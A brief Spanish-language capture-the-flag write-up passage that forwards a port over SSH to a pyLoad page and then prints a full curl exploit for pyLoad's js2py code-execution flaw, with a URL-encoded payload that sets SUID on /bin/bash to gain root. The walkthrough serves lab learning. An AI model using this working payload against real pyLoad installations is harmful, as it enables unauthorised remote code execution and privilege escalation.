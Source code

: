 Y como se imaginan, debemos de hacer port forwarding, ejecutamos este comando en nuestra maquina:

```ssh -L 8000:127.0.0.1:8000 sau@10.10.11.214```

Una vez dentro, veremos una pagina de pyLoad, buscando en google por vulnerabilidades, existe una ejecucion arbitraria de codigo que abusa de la funcion js2py, aca hay un post que habla sobre ello: [https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/)


Para conseguir root, debemos de asignarle permisos SUID a bash, esto lo hacemos con:

```
curl -i -s -k -X $'POST' \
-H $'Host: 127.0.0.1:8000' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 184' \
--data-binary $'package=xxx&crypted=AAAA&jk=%70%79%69%6d%70%6f%72%74%20%6f%73%3b%6f%73%2e%73%79%73%74%65%6d%28%22%63%68%6d%6f%64%20%75%2b%73%20%2f%62%69%6e%2f%62%61%73%68%22%29;f=function%20f2(){};&passwords=aaaa' \
$'http://127.0.0.1:8000/flash/addcrypted2'
```

![](/assets/img/PC/9.png)

Y listo, esto es todo, gracias por leer ❤

![](/assets/img/PC/waifu.gif)
